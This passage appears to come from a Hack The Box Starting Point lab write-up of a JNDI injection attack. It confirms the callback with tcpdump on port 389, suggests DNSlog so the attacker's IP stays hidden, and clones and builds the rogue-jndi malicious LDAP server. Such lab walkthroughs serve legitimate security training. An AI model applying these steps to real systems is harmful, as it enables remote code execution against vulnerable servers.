    ![](../assets/img/htb-starting-point/56.png)

6. After sending the request, we test by `tcpdump`, port **389** is tested as ldap run at that port

   ```bash
   sudo tcpdump -i tun0 port 389
   ```

   ![](../assets/img/htb-starting-point/57.png)

   Packet is recieved which means it is **vulnerable**

   > The drawback of this test is expose our IP, a better method would be using DNSlog

7. Now, we have to prepare a **malicious LDAP server for JNDI injection attacks**, we can git clone from https://github.com/veracode-research/rogue-jndi. There are some prerequisites like install `Open-JDK` and `Maven`

   ```bash
   sudo apt update
   sudo apt install openjdk-11-jdk -y
   sudo apt install maven
   git clone https://github.com/veracode-research/rogue-jndi
   cd rogue-jndi
   mvn package
   ```
